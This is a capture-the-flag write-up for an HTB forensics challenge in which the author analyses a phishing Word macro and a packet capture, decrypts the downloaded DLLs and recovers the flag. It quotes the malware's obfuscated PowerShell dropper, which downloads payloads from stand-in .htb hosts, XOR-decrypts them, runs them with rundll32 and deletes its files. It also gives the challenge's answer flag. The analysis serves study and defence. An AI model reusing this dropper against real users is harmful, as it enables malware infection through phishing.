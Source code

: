 # MBCoin

MBCoin was a medium Forensics challenge with only downloadable files.

### Challenge pretext:

We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months. This campaign abuses the current crypto market crash to target disappointed crypto owners. A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document. Analyze the supplied files and figure out what happened.

The zip file consisted of 2 files:  **mbcoin.doc** and **mbcoin.pcapng**.

### mbcoin.doc
**mbcoin.doc** was an old Microsoft Word 97 - 2003 Document (.doc) format.  The file, when opened, showed a word document with the following text:

```
Hello,

Are you wondering about how you can make more money through a smarter investment? If you have looked at the profits available from cryptocurrency and thought it was too late, now is your chance. Get in on the ground floor today with the announcement of MBCoin.

You may be eligible for free MBCoin! Make sure to click “Enable Content” and this document will calculate how much MBCoin you’ve won.

Happy Investing to the Moon,

Monkey Business Investments
```
https://i.imgur.com/i24NXcT.png

The document had a macro that was set to run on AutoOpen (when document is loaded).
https://i.imgur.com/pajYgdX.png

Analyzed the VBA code, it looks to take 2 strings from the document somewhere (`ActiveDocument.Shapes(1)` and `(2)`) and write them to a file c:\\ProgramData\\pin.vbs, then execute it with: `cmd /k cscript.exe c:\ProgramData\pin.vbs`

When unzipping the .doc file with 7-zip I found a few other files that did not show up the first time, when using linux unzip.  Not sure why this was:
https://i.imgur.com/2x1RuiS.png

Inside the 1Table file, found plenty of VBA code with obfuscated Powershell commands. This looks to be the contents of the pin.vbs:
```
 L L 1   =   " $ N a n o = ' J O O E X ' . r e p l a c e ( ' J O O ' , ' I ' ) ; s a l   O Y   $ N a n o ; $ a a = ' ( N e w - O b ' ;   $ q q = ' j e c t   N e ' ;   $ w w = ' t . W e b C l i ' ;   $ e e = ' e n t ) . D o w n l ' ;   $ r r = ' o a d F i l e ' ;   $ b b = ' ( ' ' h t t p : / / p r i y a c a r e e r s . h t b / u 9 h D Q N 9 Y y 7 g / p t . h t m l ' ' , ' ' C : \ P r o g r a m D a t a \ w w w 1 . d l l ' ' ) ' ; $ F O O X   = ( $ a a , $ q q , $ w w , $ e e , $ r r , $ b b , $ c c   - J o i n   ' ' ) ;   O Y   $ F O O X | O Y ; " 
 
 L L 2   =   " $ N a n o z = ' J O O E X ' . r e p l a c e ( ' J O O ' , ' I ' ) ; s a l   O Y   $ N a n o z ; $ a a = ' ( N e w - O b ' ;   $ q q = ' j e c t   N e ' ;   $ w w = ' t . W e b C l i ' ;   $ e e = ' e n t ) . D o w n l ' ;   $ r r = ' o a d F i l e ' ;   $ b b = ' ( ' ' h t t p s : / / p e r f e c t d e m o s . h t b / G v 1 i N A u M K Z / j v . h t m l ' ' , ' ' C : \ P r o g r a m D a t a \ w w w 2 . d l l ' ' ) ' ; $ F O O X   = ( $ a a , $ q q , $ w w , $ e e , $ r r , $ b b , $ c c   - J o i n   ' ' ) ;   O Y   $ F O O X | O Y ; " 

[...]
 
 M M 1   =   " $ b   =   [ S y s t e m . I O . F i l e ] : : R e a d A l l B y t e s ( ( ( ' C : G P H ' + ' p r ' + ' o g ' + ' r a ' + ' m d a t a G ' + ' P H w w w 1 . d ' + ' l l ' )     - C r e P L a c E ' G P H ' , [ C h a r ] 9 2 ) ) ;   $ k   =   ( ' 6 i ' + ' I ' + ' g l ' + ' o ' + ' M k 5 ' + ' i R Y A w ' + ' 7 Z ' + ' T W e d 0 C r ' + ' j u Z 9 w i j y Q D j ' + ' K O ' + ' 9 M s 0 D 8 K 0 Z 2 H 5 M X 6 w y O K q F x l ' + ' O m 1 ' + ' X ' + ' p j m Y f a Q X ' + ' a c A 6 ' ) ;   $ r   =   N e w - O b j e c t   B y t e [ ]   $ b . l e n g t h ;   f o r ( $ i = 0 ;   $ i   - l t   $ b . l e n g t h ;   $ i + + ) { $ r [ $ i ]   =   $ b [ $ i ]   - b x o r   $ k [ $ i % $ k . l e n g t h ] } ;   i f   ( $ r . l e n g t h   - g t   0 )   {   [ S y s t e m . I O . F i l e ] : : W r i t e A l l B y t e s ( ( ( ' C : Y 9 A p r o ' + ' g r a m d a t ' + ' a ' + ' Y ' + ' 9 A w w w ' + ' . d ' + ' l l ' ) . R E p L a c e ( ( [ c h A r ] 8 9 + [ c h A r ] 5 7 + [ c h A r ] 6 5 ) , [ s T r i N g ] [ c h A r ] 9 2 ) ) ,   $ r ) } " 
 
 M M 2   =   " $ b   =   [ S y s t e m . I O . F i l e ] : : R e a d A l l B y t 
 
 [...]
 
 S e t   R a n   =   C r e a t e O b j e c t ( " w s c r i p t . s h e l l " ) 
 R a n . R u n   H H 0 + M M 1 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 2 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 3 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 4 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 5 , C h r ( 4 8 ) 
 
 W S c r i p t . S l e e p ( 1 5 0 0 0 ) 
 O K 1   =   " c m d   / c   r u n d l l 3 2 . e x e   C : \ P r o g r a m D a t a \ w w w . d l l , l d r " 
 O K 2   =   " c m d   / c   d e l   C : \ p r o g r a m d a t a \ w w w * " 
 O K 3   =   " c m d   / c   d e l   C : \ p r o g r a m d a t a \ p i n * " 
 R a n . R u n   O K 1 ,   C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 1 0 0 0 ) 
 R u n . R u n   O K 2 ,   C h r ( 4 8 )
 
 ```
 
 After studying the code for a while, I figured out that 5 dll files were being downloaded and decrypted on the machine: in LL1, pt.html is being downloaded from priyacareers.htb, then saved as www1.dll.  Then later on in MM1, the www1.dll file is decrypted and then saved as www.dll. 
 
 At the bottom of the code, the only dll that appears to actually be run is www.dll.  So it looks like the last file that successfully downloads is the actual www.dll, the others are never run. Looks like it loads a function 'ldr'.

I then uploaded the mbcoin.doc file to an online sandbox, https://any.run so I could watch it explode and capture any other possible clues easily, even though the domains it reaches out to don't look to exist in the real world.  Noticed the last step is the execution of rundll32.exe www.dll,ldr file just as I expected.
https://app.any.run/tasks/95061781-61c3-4dd6-bf3e-e5fcea6db905
https://i.imgur.com/cZsoNq7.png

### mbcoin.pcapng
**mbcoin.pcapng** is a packet capture file.  Therer were 4 different IPv4 conversations in total- 
1) some DNS requests to  10.1.1.5
2) a suspicious request to 192.0.2.111/ByH5NDoE3kQA/vm.html (cablingpoint.htb) 
3) a request to a missing page 203.0.113.223/ze8pCNTIkrIS/wp.html (business-z.htb)
4) a suspicious request to 10.1.1.163/u9hDQN9Yy7g/pt.html (priyacareers.htb)

The suspicious requests look to contain encrypted data:

```
GET /u9hDQN9Yy7g/pt.html HTTP/1.1
Host: priyacareers.htb
Connection: Keep-Alive
 

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Wed, 29 Jun 2022 14:04:59 GMT
Content-type: text/html
Content-Length: 10752
Last-Modified: Wed, 29 Jun 2022 13:32:37 GMT


{3.gooMk1iRY..7Z.Wed0Crj5Z9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm0Xpdr.ha.Q.B.7z.h3..>KE.=>3.Zz76.
_7R..zK..J.?d.... .T!.F=P.H5MX6wy{.......A.......(.l.3...[...?...@...M...w...
...+...
.../.......;...........8.......).......)...........9\
:)...ZTWed0CrjuZ9wijy..jK+.Ks...)0Z2H5MX6.ymkzDvsO}1XpvmYfaQX.pA66yIgloM.4iRYAg7ZTUed6CrjuZ9wojyQDjKO9=s0D<K0Z2H5OXVvyO[qFxlOm!XpjmYfaQHacA66iYgloMk5iRYAg7ZT.Md0.rjun.wi.yQDj.O9.s0D8.0Z.I5MX6wyOKqFx.Om.Xpj.zfa!XacA66iIgloMk5iRYAw7ZTWed0CBHuZyvijyQDjKO9Ms.D8.0Z2H5MX6wyOKqFxlOm1XpjmYfaQv..9B6iI.boMk%iRYQw7ZPWed0CrjuZ9wijyqDj+aK).D%8K.W2H5mX6wwOKqRxlOm1XpjmYfaQX!cAv.
[...]
```

Saved these files from 2) and 4) to vm.html and pt.html, by extracting all files via HTTP in Wireshark: File - Export Objects - HTTP - Save all

Copied/modified some of the powershell to decrypt the files and save them:

(Thanks to my co-worker Aaron for noticing the keys ARE different, by a couple characters in the middle, explaining why my files were not ever decrypting quite properly!)

```
$dir="C:\temp\mbcoin"

sl $dir
$fnames=@("pt.html",
          "vm.html")
$keys=@("6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6",
        "6iIoNoMk5iRYAw7ZTWed0CrjuZ9wijyQDjPy9Ms0D8K0Z2H5MX6wyOKqFxlOm1GpjmYfaQXacA6")

$x=0
foreach ($fname in $fnames) {
  $b = [System.IO.File]::ReadAllBytes("$($dir)\$($fname)"); 
  $k = $keys[$x]
  $r = New-Object Byte[] $b.length; 
  for($i=0; $i -lt $b.length; $i++) { 
    $r[$i] = $b[$i] -bxor $k[$i%$k.length]
  }
  if ($r.length -gt 0) { 
    [System.IO.File]::WriteAllBytes("$($dir)\$($fname).txt", $r)
  }
  $x+=1
}
```

Renamed both of these files pt.html.txt to www1.dll, and vm.html.txt to www4.dll.
Finally, at this point, I had a valid www1.dll and www4.dll.  

Ended up opening Ghidra to see what each dll does.  In www1.dll there was a note 'Are you sure this was the DLL loaded on the system?' which I had noticed earlier by browsing the binary.  This file was copied over and never run.

In www4.dll, I browsed to the ldr function, and found the flag:
https://i.imgur.com/Xk1yMVV.png
https://i.imgur.com/Fbxr43I.png

Overall this challenge took a bit longer than expected, as first I could not find the contents of pin.vbs since I was using linux unzip instead of 7-zip, and all my other attempts with oletools did not show it either, until I was able to find it when unzipping with 7-zip.  Also, I did find it in any.run (sandbox).  The 2nd part that caught me up was assuming the keys were the same for each file and then not being able to load DLL file in Ghidra.

This was a group effort, thanks to my team for their parts in solving this challenge!

Flag:
HTB{wH4tS_4_sQuirReLw4fFl3?}
